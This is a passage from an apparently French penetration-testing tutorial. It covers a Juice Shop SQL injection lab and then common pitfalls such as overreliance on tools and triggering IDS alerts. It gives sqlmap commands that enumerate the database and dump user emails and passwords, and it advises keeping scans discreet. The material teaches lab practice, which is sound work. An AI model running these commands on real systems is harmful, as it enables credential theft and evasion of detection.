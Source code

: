 **Étape 4 : Exploitation alternative avec SQLmap (Optionnel)**

Pour une approche plus automatisée, utilisez SQLmap. Interceptez une requête de connexion légitime avec Burp Suite. Copiez la requête HTTP complète dans un fichier (par exemple, `login.req`). Lancez ensuite SQLmap :
```bash
sqlmap -r login.req --level=5 --risk=3 --dbs
```
SQLmap tentera d'identifier et d'exploiter l'injection. Vous pouvez ensuite lui demander d'extraire les tables, les colonnes et les données, y compris les identifiants des utilisateurs :
```bash
sqlmap -r login.req --level=5 --risk=3 -D juiceshop --tables
sqlmap -r login.req --level=5 --risk=3 -D juiceshop -T Users --columns
sqlmap -r login.req --level=5 --risk=3 -D juiceshop -T Users -C email,password --dump
```
Cela vous permettra de récupérer les identifiants de tous les utilisateurs, y compris l'administrateur.

Ce mini-lab vous a permis de pratiquer l'exploitation de vulnérabilités réseau et web dans des environnements contrôlés. N'hésitez pas à explorer davantage ces plateformes pour découvrir et exploiter d'autres failles.


## 6. Pièges classiques

L'exploitation de vulnérabilités est un domaine où l'expérience joue un rôle crucial. Même les professionnels chevronnés peuvent tomber dans certains pièges récurrents. Cette section présente les erreurs les plus fréquentes et propose des stratégies pour les éviter.

### 6.1 Surconfiance dans les outils automatisés

L'un des pièges les plus courants consiste à se fier aveuglément aux outils automatisés. Les frameworks comme Metasploit ou les scanners comme SQLmap sont puissants, mais ils ne sont pas infaillibles. Ils peuvent générer des faux positifs, échouer silencieusement, ou pire, endommager les systèmes cibles.

Par exemple, lors d'une injection SQL, SQLmap pourrait identifier une vulnérabilité mais échouer à l'exploiter correctement en raison de particularités dans l'implémentation de la base de données. Un pentesteur qui se contenterait du rapport automatique pourrait conclure à tort à l'absence de vulnérabilité exploitable, alors qu'une approche manuelle révélerait la faille.

Pour éviter ce piège, adoptez une approche hybride : utilisez les outils automatisés pour l'identification initiale, mais validez toujours manuellement les résultats. Comprenez les mécanismes sous-jacents des exploits que vous utilisez, et soyez prêt à les adapter si nécessaire. Rappelez-vous que les outils sont des extensions de vos compétences, non des substituts.

### 6.2 Négligence des logs et de la détection

De nombreux pentesteurs se concentrent exclusivement sur l'exploitation réussie, négligeant l'aspect discrétion. Cette approche peut compromettre l'ensemble du test d'intrusion, particulièrement dans les environnements dotés de systèmes de détection sophistiqués.

Un cas typique est l'utilisation de Nmap avec des options par défaut pour scanner un réseau d'entreprise. Ce scan génère un volume important de paquets SYN, déclenchant immédiatement les alertes des IDS. De même, l'exécution de multiples exploits Metasploit sans considération pour les signatures laissées peut alerter les équipes de sécurité avant même que vous n'ayez obtenu un accès significatif.

